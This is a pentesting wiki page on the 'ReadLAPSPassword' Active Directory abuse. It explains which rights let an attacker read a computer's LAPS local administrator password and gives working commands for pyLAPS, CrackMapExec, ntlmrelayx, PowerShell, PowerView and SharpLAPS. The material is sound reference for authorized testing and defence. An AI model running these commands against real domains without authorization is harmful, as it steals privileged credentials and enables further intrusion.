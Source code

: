 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `GenericAll` or `AllExtendedRights` (or combination of `GetChanges` and (`GetChangesInFilteredSet` or `GetChangesAll`) for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [pyLAPS](https://github.com/p0dalirius/pyLAPS) (Python) can be used to retrieve LAPS passwords.

```bash
pyLAPS.py --action get -d 'DOMAIN' -u 'USER' -p 'PASSWORD' --dc-ip 192.168.56.101
```

Alternatively, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) also has this ability (since v5.1.6).. In case it doesn't work [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec could also be used.

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.

[LAPSDumper](https://github.com/n00py/LAPSDumper) is another Python alternative.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

The [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) powershell module from PowerSploit can also be used for that purpose.

```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process.&#x20;

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://simondotsh.com/infosec/2022/07/11/dirsync.html" %}
